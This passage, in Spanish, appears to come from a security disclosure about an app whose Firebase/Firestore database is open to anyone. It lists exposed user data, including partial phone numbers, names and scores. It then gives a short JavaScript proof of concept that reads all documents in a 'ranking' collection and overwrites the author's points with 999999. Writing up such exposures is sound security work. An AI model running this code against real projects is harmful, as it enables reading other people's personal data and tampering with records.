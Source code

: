 #### **Información Comprometida**
Los documentos contienen datos sensibles parcialmente expuestos:

```json
{
    "points": 4510,
    "number": "XXXXX",  // Parte del número de teléfono
    "name": "XXXX"
}
```

#### **Datos Expuestos**
- **Partes de números de teléfono** de usuarios
- **Nombres de usuario** reales
- **Puntuaciones y actividad** de la comunidad
- **IDs de documentos** que pueden revelar patrones


## Demostración Práctica

### Acceso Desde la Consola de Firebase

Con las credenciales expuestas, cualquier persona puede:

1. **Acceder a Firebase Console** con el Project ID
2. **Conectarse a Firestore** directamente
3. **Leer colecciones** sin autenticación
4. **Modificar documentos** si los permisos lo permiten

### Manipulación de Puntos

```javascript
// Desde la consola del navegador
const db = firebase.firestore();

// Leer datos de otros usuarios
db.collection('ranking').get().then((snapshot) => {
    snapshot.forEach((doc) => {
        console.log(doc.id, doc.data());
    });
});

// Modificar mis propios puntos
db.collection('ranking').doc('[MY_DOC_ID]').update({
    points: 999999
});
```
